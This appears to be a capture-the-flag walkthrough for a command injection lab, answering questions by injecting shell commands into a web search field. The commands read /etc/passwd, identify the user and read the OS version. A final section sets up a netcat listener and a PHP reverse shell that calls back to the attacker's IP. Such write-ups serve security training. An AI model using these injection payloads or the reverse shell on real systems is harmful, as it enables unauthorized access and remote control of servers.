

# Task 5

## What strange text file is in the website root directory?

```
test; ls
```

### Answer

drpepper.txt

## How many non-root/non-service/non-daemon users are there?

```
test; cat /etc/passwd
```

### Answer

0

## What user is this app running as?

```
test; whoami
```

### Answer

www-data

## What is the user's shell set as?

```
test; cat /etc/passwd |grep www-data
```

### Answer

/usr/sbin/nologin

## What version of Ubuntu is running?

```
test ; cat /etc/os-release

or 

test ; lsb_release -a
```
### Answer

18.04.4

## Print out the MOTD.  What favorite beverage is shown?

```
test ; locate 00-header
test ; cat /etc/update-motd.d/00-header 
```

### Answer

Dr Pepper

# EXTRA

## Spawn remote shell in that machine

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

1. On your machine

- Open a localport on your machine

```
nc -lvnp 9001
```

2. On vulnerable webpage
   
- Spawn this remote shell in the search input. 

Replace ```10.18.1.159``` with your own VPN IP

```
test; php -r '$sock=fsockopen("10.18.1.159",9001);`sh <&3 >&3 2>&3`;'
```

  
